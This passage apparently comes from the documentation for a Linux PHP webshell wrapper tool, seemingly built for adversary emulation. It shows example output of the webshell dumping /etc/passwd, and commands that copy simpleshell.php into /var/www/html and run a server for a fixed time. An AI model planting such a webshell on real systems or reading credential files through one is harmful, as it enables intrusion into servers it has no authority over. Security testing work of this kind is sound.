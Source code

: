 Output for `passwd`, cut down for length:
```
2022/05/31 11:13:58 Connecting to extension: "passwd"
2022/05/31 11:13:58 url: http://localhost:80/simpleshell.php?passwd
2022/05/31 11:13:58 Response:
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
# ...Omitted for length...
gdm:x:127:133:Gnome Display Manager:/var/lib/gdm3:/bin/false
dev:x:1000:1000:dev,,,:/home/dev:/bin/bash
```

#### Example Flags and Output - Controlling runTime

With `runTime` > 0, the server quits after runTime elapses.
```
sudo -u root -i /bin/bash -c '/mnt/hgfs/webshell/build/linux/wrapper_php -shellSrc="/mnt/hgfs/webshell/build/linux/simpleshell.php" -runTime=30'
[sudo] password for dev: 
2022/05/26 15:48:15 Copied webshell /mnt/hgfs/webshell/build/linux/simpleshell.php to /var/www/html/simpleshell.php.
2022/05/26 15:48:15 Server started.
2022/05/26 15:48:15 Server will run for 30 seconds.
# ... output omitted
2022/05/26 15:48:45 Attempted to stop server with systemctl.
2022/05/26 15:48:45 Finished.
```

With a `runTime` of 0, the server runs until the user sends Ctrl+C to the console.
```
$ sudo -u root -i /bin/bash -c '/mnt/hgfs/webshell/build/linux/wrapper_php -shellSrc="/mnt/hgfs/webshell/build/linux/simpleshell.php" -runTime=0'
2022/05/26 15:55:08 Copied webshell /mnt/hgfs/webshell/build/linux/simpleshell.php to /var/www/html/simpleshell.php.
2022/05/26 15:55:08 Server started.
2022/05/26 15:55:08 Server will run until stopped with Ctrl+C.

^C2022/05/26 15:56:15 Kill signal received. Attempting to stop web server.
2022/05/26 15:56:15 Attempted to stop server with systemctl.
2022/05/26 15:56:15 Finished.
```

### Customizing the Executables

The behavior of the executable can be further tailored by modifying the variables used by the build scripts and then rebuilding the project from source.

Refer to [Customizing the Executables](BUILD_linux_php_webshell.md#Customizing-The-Executables) in the building document for more details.
